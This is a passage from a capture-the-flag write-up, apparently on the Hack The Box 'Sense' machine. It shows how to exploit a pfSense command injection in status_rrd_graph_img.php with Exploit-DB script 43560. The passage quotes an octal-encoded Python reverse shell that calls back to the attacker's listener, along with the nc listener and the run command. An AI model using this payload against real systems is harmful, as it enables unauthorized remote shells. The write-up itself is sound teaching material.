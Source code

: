 ## Exploitation <a id="d1d3"></a>

Transfer the exploit to our directory.

```text
searchsploit -m 43560.py
```

Let’s look at the[ exploit](https://www.exploit-db.com/exploits/43560) to see what it’s doing.

```text
.....# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"
......
```

It seems that the status\_rrd\_graph\_img.php script is vulnerable to a command injection. To exploit that, the script is passing a simple python reverse shell \(with the configuration parameters we pass as arguments\) as a command. It does octal encode the reverse shell command which leads me to believe that there is either some form of filtering being done at the backend or the application crashes on certain characters. To sum up, it’s a very simple script that sends a reverse shell back to our attack machine.

Therefore, let’s up a listener to receive the shell.

```text
nc -nlvp 1234
```

Then run the exploit.

```text
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.12 --lport 1234 --username rohit --password pfsense
```

We have a shell!

![](../images/max/735/1*HlkTLkGA2OYf6Nthu8ISUw.png)
